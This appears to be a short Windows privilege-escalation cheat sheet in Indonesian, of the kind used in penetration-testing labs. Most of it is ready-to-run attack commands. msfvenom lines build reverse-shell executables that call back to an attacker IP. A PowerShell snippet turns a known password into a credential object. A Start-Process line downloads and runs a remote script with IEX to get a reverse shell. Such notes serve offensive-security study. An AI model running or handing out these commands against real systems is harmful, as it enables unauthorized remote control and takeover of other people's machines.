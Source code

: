# Windows Privilege Escalation



## MSFVENOM
### 32 Bit
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.8 LPORT=4545 -f exe -o rev.exe
```

### 64bit

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.8 LPORT=4545 -f exe -o rev.exe
```


## Run As Administrator
Jika kita telah mendapatkan initial access dan mengetahui password dari user low tersebut maka kita bisa coba menjalankan perintah as administrator. Misal tedapat user dengan nama 
```
username : mrdoel
password: myPassword123
```

Maka untuk menjalankan perintah dengan administrator perintahnya
1. Jika kita ingin menggunakan credential di windows dgn powerhshell maka kita harus membuatnya dengan PSCredential
```shell
# membuat credential terlebuh dahulu
$pass = convertto-securestring 'myPassword123' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('Administrator', $pass)
```

Untuk melihat hasilnya panggil variable
```
$pass
$cred
```

2. Lalu hasil dari `$cred` digunakan untuk menjalankan perintah as administrator, dalam kasus ini kita coba melakukan reverse shell
```
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://10.10.14.8:8081/Invoke-Powershell.ps1')" -Credential $cred
```
## Insecure Service Permissions
Service merupakan program-program pada windows yang dijalankan pada background. Terkadang menerima input atau menjalankan sebuah task
Jika sebuah **service** dijalankan dengan privileges **SYSTEM** dan terdapat misconfiguration, maka kita bisa melakukan priv esc. 
